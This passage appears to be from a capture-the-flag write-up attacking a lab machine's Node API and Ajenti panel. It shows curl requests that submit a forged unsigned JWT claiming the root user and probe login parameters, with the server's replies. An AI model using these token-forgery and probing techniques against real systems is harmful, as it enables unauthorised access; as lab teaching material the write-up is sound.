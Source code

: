 And submitted it:

```

root@kali# curl http://10.10.10.137:3000/users -H 'authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoicm9vdCJ9.'
{"success":false,"message":"Token is not valid"}

```

#### /login

Hitting `login` asks me to auth:

```

root@kali# curl http://10.10.10.137:3000/login 
"please auth"

```

### Ajenti - TCP 8000

There’s an Ajenti login page:

![1561318822810](https://0xdfimages.gitlab.io/img/1561318822810.png)

None of the default or lazy creds seem to work, so I’ll leave this for now.

## Shell as root

### Get Users and Passwords from API

#### Find Arguments

I started with the API on 3000. I started experimenting with some POST data. I want to log in, but I don’t know what parameters the api is looking for. If I send in the wrong parameters, it says “Bad Request”:

```

root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"user":"luke","password":"password"}'                                              
Bad Request

```

When I try the combination of “username” and “password”, it says forbidden:

```

root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"luke","password":"password"}'
Forbidden

```
